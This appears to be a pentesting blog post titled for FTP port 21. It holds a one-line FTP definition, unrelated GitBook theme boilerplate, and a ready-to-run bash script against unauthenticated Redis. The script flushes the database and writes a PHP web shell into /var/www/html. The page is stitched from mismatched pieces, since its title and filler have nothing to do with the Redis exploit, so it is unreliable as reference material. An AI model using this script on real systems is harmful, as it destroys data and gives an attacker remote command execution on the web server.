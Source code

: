 ```yaml
---
title: 🟢 21 FTP (TCP)
author: d4t4s3c
date: 2019-04-27
category: Jekyll
layout: post
---
```


# Basic Infomation

**File Transfer Protocol (FTP)** is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.



GitBook is an amazing frontend style to present and organize contents (such as book chapters
and blogs) on Web. The typical to deploy GitBook at [Github Pages][1]
is building HTML files locally and then push to Github repository, usually to the `gh-pages`
branch. However, it's quite annoying to repeat such workload and make it hard for people do
version control via git for when there are generated HTML files to be staged in and out.

This theme takes style definition out of generated GitBook site and provided the template
for Jekyll to rendering markdown documents to HTML, thus the whole site can be deployed
to [Github Pages][1] without generating and uploading HTML bundle every time when there are
changes to the original repository.

[1]: https://pages.github.com



```bash
#!/bin/bash

rhost="192.168.1.2"   # CHANGE THIS
rport="6379"          # CHANGE THIS

redis-cli -h $rhost -p $rport flushall
sleep 0.3
echo '<?php system($_GET["cmd"]); ?>' | redis-cli -h $rhost -p $rport -x set cmd
sleep 0.3
redis-cli -h $rhost -p $rport config set dir "/var/www/html"
sleep 0.3
redis-cli -h $rhost -p $rport config set dbfilename "cmd.php"
sleep 0.3
redis-cli -h $rhost -p $rport save
sleep 0.3
exit 0
```
